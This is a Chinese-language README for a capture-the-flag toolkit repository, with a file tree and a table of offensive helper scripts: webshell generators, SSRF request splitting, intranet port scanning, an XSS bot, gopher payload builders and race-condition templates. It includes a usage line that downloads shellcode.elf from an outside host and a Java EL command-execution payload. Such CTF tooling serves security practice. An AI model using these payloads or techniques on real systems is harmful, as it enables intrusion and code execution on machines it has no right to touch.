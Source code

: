 # CTF-Scripts

## 目录结构
```
.
├── dockers
│   └── docker_php_debug
│       ├── docker-compose.yml
│       ├── logs
│       │   └── nginx
│       │       ├── access.log
│       │       ├── error.log
│       │       ├── info.log
│       │       └── notice.log
│       ├── mysql
│       │   ├── db.sql
│       │   ├── Dockerfile
│       │   └── xyhcms.sql
│       ├── nginx
│       │   ├── Dockerfile
│       │   ├── nginx.conf
│       │   └── templates
│       │       └── default.conf.template
│       ├── php-fpm
│       │   ├── Dockerfile
│       │   ├── mongodb-1.14.1.tgz
│       │   ├── www.conf
│       │   ├── xdebug-3.1.5.tgz
│       │   └── xdebug.ini
│       ├── README.md
│       └── source
│           └── test.php
├── javascript
│   ├── node-ssrf-split.js
│   ├── port-scan.js
│   ├── test.js
│   └── xss-bot.js
├── misc
│   ├── compress-zlib.py
│   ├── Config.yml
│   ├── download.sh
│   └── UploadServer.py
├── php
│   ├── calcSig.py
│   ├── ffi-leak.php
│   ├── geneshell2.php
│   ├── geneshell.php
│   └── serialize.php
├── README.md
├── thread
│   ├── contend2.py
│   └── contend.py
└── transform
    ├── convert2javabytes.py
    ├── encoding.js
    ├── gopher2mysql
    ├── gopher2mysql.py
    ├── gopherConvert.py
    └── gopher.py
```

## 文件说明

|  文件名 | 文件说明  |
|---|---|
|  encoding.js |  JS8/16进制/Unicode标准格式转换 |
|  node-ssrf-split.js | node<=8.0 http.get拆分请求构造，对于生成的数据进行encodeUR操作即可  |
|  port-scan.js | JS探测内网主机端口/内网主机  |
|  xss-bot.js | XSS机器人  |
|  serialize.php | 对于private/protected属性，序列化后S类型转换(截取phpgcc部分功能)  |
| geneshell.php  | 生成无字母webshell的字母部分，用法见p神：[无字母数字的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)  |
| geneshell2.php  |  另一种无字母Shell生成函数，无短标签  |
|  compress-zlib.php | file_get_contents生成本地临时文件，使用socket原生套接字改写Http请求&响应包。双线程发送http请求，参考36c3 CTF includer:[includer](https://ljdd520.github.io/2020/01/15/hxp-36c3-ctf-Web-%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)  |
|  ffi-leak.php | PHP7.4 FFI extension use to leak data，来源：[@cjm00n](https://cjm00n.top/CTF/tctf-2020-wp.html)  |
|  calcSig.py | 根据内容计算phar的签名，生成新的phar文件  |
| gopherConvert.py  | wireshark网卡数据包转gopher数据形式  |
| gopher.py  | 生成post的gopher数据报文  |
|  gopher2mysql.py | 生成与mysql交互的gopher数据报文  |
| UploadServer.py  | 以当前目录，快速启动一个带有文件上传/下载功能代理服务器. Usage: python2 UploadServer.py 8888  |
| download.sh  | 无curl或wget情况的http下载文件请求，Usage：download.sh http://hpdoger.cn:8888/shellcode.elf > shellcode.elf  |
|contend.py |threading条件竞争模版，用来竞争php sess文件 |
| contend2.py|比较优雅的进行条件竞争模版，来自@P神 |
|convert2javabytes.py |转字符串为16进制字节码，方便java中的命令执行例如EL表达式：${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))} |
| c\perl交互readflag脚本| [readflag](https://github.com/ZeddYu/ReadFlag)|
| docker_php_debug| docker远程调试php板子，mysql+nginx+php-fpm+xdebug|
| misc/Config.yaml| Hae高亮规则，参考[Hae Repo](https://github.com/gh0stkey/HaE)|
